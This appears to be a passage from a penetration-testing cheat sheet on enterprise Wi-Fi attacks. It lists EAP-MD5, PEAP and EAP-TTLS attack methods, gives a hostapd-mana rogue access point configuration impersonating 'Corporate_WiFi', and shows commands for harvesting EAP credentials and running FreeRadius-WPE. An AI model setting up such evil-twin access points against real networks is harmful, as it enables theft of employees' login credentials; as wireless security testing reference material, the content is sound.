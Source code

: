 </div>

<div>

## 🏢 Enterprise Wireless Attacks

### 🔐 EAP Attack Methods
```yaml
EAP-MD5 Attack:
  - Dictionary/brute force
  - No mutual authentication
  - Offline password cracking
  - Asleap tool usage

PEAP Attack:
  - Certificate validation bypass
  - Inner authentication targeting
  - Credential harvesting
  - Hostapd-mana framework

EAP-TTLS Attack:
  - Tunnel manipulation
  - Inner protocol attacks
  - Certificate spoofing
  - FreeRadius-WPE usage
```

### 🎯 Enterprise Attack Tools
```bash
# hostapd-mana configuration
interface=wlan1
driver=nl80211
ssid=Corporate_WiFi
hw_mode=g
channel=6
ieee8021x=1
eap_server=1
eap_user_file=/etc/hostapd-mana/mana.eap_user
ca_cert=/etc/hostapd-mana/ca.pem
server_cert=/etc/hostapd-mana/server.pem
private_key=/etc/hostapd-mana/server.key
mana_wpe=1

# EAP credential harvesting
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

### 📡 Radius Server Attacks
```bash
# FreeRadius-WPE setup
sudo apt install freeradius-wpe

# Configure WPE
sudo vi /etc/freeradius/sites-enabled/default

# Start WPE server
sudo freeradius-wpe -X
```
